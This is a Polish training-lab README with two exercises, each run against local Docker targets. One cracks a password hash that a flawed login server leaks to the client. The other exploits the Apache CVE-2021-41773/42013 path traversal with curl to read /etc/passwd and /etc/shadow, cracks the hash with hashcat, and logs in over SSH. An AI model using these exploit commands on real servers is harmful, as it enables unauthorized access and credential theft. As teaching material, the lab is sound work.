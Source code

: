 # __Przygotowanie Środowiska__
- **Docker Desktop** [link](https://www.docker.com/products/docker-desktop/)

Docker to platforma do tworzenia, uruchamiania i zarządzania kontenerami oprogramowania. Kontenery to lekkie, samodzielne jednostki oprogramowania, które zawierają wszystko, czego potrzeba do uruchomienia aplikacji, w tym kod, biblioteki, zależności i pliki konfiguracyjne.

- **John the Ripper | Hashcat** [link](https://hashcat.net/hashcat/)

<br><br>

# __Hash od Serwera__

Jest to luka utworzona poprzez zwykły ludzki błąd przy projektowaniu systemu logowania. Serwer zamaiast sprawdzać prawidłowość hasła u siebie to sprawdza po stronie klienta, który w łatwy sposób może wykorzystać te informacje by włamać się na serwer.

## **Zaczynamy**:

1. Należy uruchomić serwer oraz client za pomocą komendy
    ```
     npm start
    ```
2. Teraz uruchom bazę danych w dokerze za pomocą komendy (należy znajdować się w folderze zawierającym plik "docker-compose.yaml"):
    ```
    docker compose up
    ```
## **Zadanie 1**
Zdobądź hasło do użytkownika admin a następnie złam za pomocą dowolnego narzędzia. Zauważ, że przy próbie logowania na użytkownia serwer zwraca ci hash jego hasła. Spróbuj go podglądnąć przy pomocy Burpa czy też innych narzędzi.

<details>
<summary>Rozwązanie</summary>
<br>

Wysyłamy zapytanie z formularza logowania do użytkownika `admin` za pomocą **Burpa** a nastepnie odczytujemy hash hasła.

Uzyskanie hasło próbujemy złamać przy pomocy hashcata

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

passwod to plik w którym przochowujemy hash, który będzie przez nas łamany

Jeśli chodzi o ciąg znaków "?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Czyli hashcat dla argunetu "?u?u?u" wygeneruje wszytskie 3 znakowe możliwości liter "ABCDEFGHIJKLMNOPQRSTUVWXYZ".

Po złamaniu hasła logujemy się na serwer

</details>



<br><br>

# __Path Traversal__

Path Traversal to poważna luka w zabezpieczeniach, która może być wykorzystywana przez hakerów do uzyskania nieautoryzowanego dostępu do systemu lub do wykonania nieautoryzowanych poleceń na zdalnym komputerze.

**<u>Podana luka została znaleziona w serwerze Apache 2.4.49 oraz 2.4.50 i nazwane [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773) & [CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013)</u>**

**Apache** to darmowe, otwartoźródłowe i wieloplatformowe oprogramowanie serwera WWW wydane na licencji Apache License 2.0. Oprogramowanie jest utrzymywane i rozwijane przez organizację non profit Apache Software Foundation.

Podatność **Path Travesal** występuje jeśli serwer posiada następującą konfiguracją

```console
<Directory />
Require all granted
</Directory>
```

W tym przypadku ustawienie `Require all granted` oznacza, że wszyscy użytkownicy mają mieć dostęp do plików i katalogów.


<br>
<br>

## **Zaczynamy**:

1. Należy uruchomić kontener komendą

```console
docker run -p 8090:80 -p 22:22 gekonisko/path-traversal
```

Kontener wystawia dwa port

- http[80]: http://llocalhost:8090
- ssh[22]: agh@localhost

<br>

2. Korzystając z narzędzi curl, postam, burp itp. wyslij nastepujace zapytanie

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e etc/passwd
```

Serwer powinien zwrócić zawartość pliku `/etc/passwd` wraz specjalnym kontem **agh**

```console
…
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
agh:x:1000:1000:,,,:/home/agh:/bin/bash
```

## **Zadanie 2**

Serwer ma wystawiony również protokół SSH, twoim zadaniem jest zalogowanie się na użytkownika agh przez protokół ssh `ssh agh@localhost`. Wykorzystaj plik `etc/shadow` aby wyciągnąć hasło użytkownika agh.

<details>
<summary>Rozwązanie</summary>

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/shadow
```

wynik:

```console
...
agh:$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1:19364:0:99999:7:::
```

zapisujemy hash w pliku

```
echo '$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1' > password
```

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

passwod to plik w którym przochowujemy hash, który będzie przez nas łamany

Jeśli chodzi o ciąg znaków "?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Po złamaniu hasła logujemy sie na serwer

```
ssh agh@localhost
```

</details>
